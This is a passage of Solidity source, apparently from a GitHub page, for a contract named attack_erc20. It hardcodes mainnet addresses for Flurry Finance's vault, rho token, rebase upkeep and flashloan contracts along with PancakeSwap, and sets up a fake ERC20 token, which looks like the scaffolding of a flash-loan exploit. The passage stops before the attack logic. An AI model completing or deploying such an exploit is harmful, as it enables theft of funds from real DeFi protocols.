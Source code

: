 ```solidity
contract attack_erc20{
    address public owner;
    address public vaultAddress     = 0x4BAd4D624FD7cabEeb284a6CC83Df594bFDf26Fd;
    address public rebaseUpKeep     = 0xc8935Eb04ac1698C51a705399A9632c6FaeCa57f;
    address public rhoAddress       = 0xD845dA3fFc349472fE77DFdFb1F93839a5DA8C96;
    address public BUSDAddress      = 0x55d398326f99059fF775485246999027B3197955;
    address public Bank             = 0xbEEB9d4CA070d34c014230BaFdfB2ad44A110142;
    address public PancakeRouter    = 0x10ED43C718714eb63d5aA57B78B54704E256024E;
    address public PancakeFactory   = 0xcA143Ce32Fe78f1f7019d7d551a6402fC5350c73;
    address public pair;
    address public strategy         = 0x5085c49828B0B8e69bAe99d96a8e0FCf0A033369;
    address public FLURRY           = 0x47c9BcEf4fE2dBcdf3Abf508f147f1bBE8d4fEf2;
    address public WBNB             = 0xbb4CdB9CBd36B01bD1cBaEBF2De08d9173bc095c;
    address public flashloanAddress = 0xd69f6dBB7d75aa6089417BC6F94E6b26dd80ba1C;


    uint public BUSDBalanceBefore;
    uint public BUSDBalanceAfter;
    uint public rhoBefore;
    uint public rhoAfter;
    uint public Mbefore;
    uint public Mafter;
    uint public MAX = 115792089237316195423570985008687907853269984665640564039457584007913129639935;
    
    string public name = 'fake';
    string public symbol = 'FKT';
    uint8 public decimals = 18;  
    uint256 public totalSupply = 1e28; 
    mapping (address => mapping (address => uint256)) public allowance;
    mapping (address => uint256) public balanceOf;
    constructor(){
        owner = msg.sender;
        balanceOf[owner] = 1e18;
    }
    function _transfer(address _from, address _to, uint _value) internal {


        require(balanceOf[_from] >= _value);  
        require(balanceOf[_to] + _value > balanceOf[_to]);




        balanceOf[_from] -= _value; 
        balanceOf[_to] += _value;
    }


    function transfer(address _to, uint256 _value) public {
        _transfer(msg.sender, _to, _value);
    }


    function transferFrom(address _from, address _to, uint256 _value) public returns (bool success) {
        require(_value <= allowance[_from][msg.sender]);     
        allowance[_from][msg.sender] -= _value;
        _transfer(_from, _to, _value);
        return true;
    }


```